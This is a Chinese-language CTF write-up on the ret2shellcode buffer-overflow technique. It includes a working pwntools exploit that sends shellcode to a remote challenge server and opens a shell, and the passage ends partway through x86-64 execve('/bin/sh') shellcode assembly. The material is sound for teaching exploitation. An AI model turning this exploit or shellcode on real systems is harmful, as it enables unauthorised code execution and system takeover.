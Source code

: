 [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

- 运行时shellcode所在区域应具有可执行权限

![](https://my-md-1253484710.file.myqcloud.com/20190407123948.png)

![](https://my-md-1253484710.file.myqcloud.com/20190407132349.png)

strncpy函数将gets的内容复制到buf2 buf存放到.bss段的[0x804a080:4]位置。

调试看所在.bss段是否有执行的权限。

![](https://my-md-1253484710.file.myqcloud.com/20190407132843.png)

![](https://my-md-1253484710.file.myqcloud.com/20190407133456.png)

payload:

```python
#coding:utf-8
from pwn import *
# context(log_level = 'debug',arch ='i386',os = 'linux' )
# sh = process(./ret2shellcode)
sh = remote("47.106.212.155",10002)
## 获得system("bin/sh")的asm
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
# sh.sendline(shellcode+"\x90"*(112-len(shellcode))+p32(buf2_addr))
sh.sendline(shellcode.ljust(112,"A")+p32(buf2_addr))
sh.interactive()
```

![](https://my-md-1253484710.file.myqcloud.com/20190407134402.png)

练习题：sniperoj-pwn100-shellcode-x86-64

![](https://my-md-1253484710.file.myqcloud.com/20190407140954.png)

![](https://my-md-1253484710.file.myqcloud.com/20190407144021.png)

偏移：` var void *buf @ rbp-0x10`   shellcode可用空间：16+8=24

找shellcode  https://www.exploit-db.com/

http://shell-storm.org/shellcode/

```asm
    .global _start
_start:
    # char *const argv[]
    xorl %esi, %esi

    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq $0x68732f2f6e69622f, %rbx

    # for '\x00'
    pushq %rsi

    pushq %rbx

    pushq %rsp
    # const char *filename
    popq %rdi

    # __NR_execve 59
    pushq $59
    popq %rax
```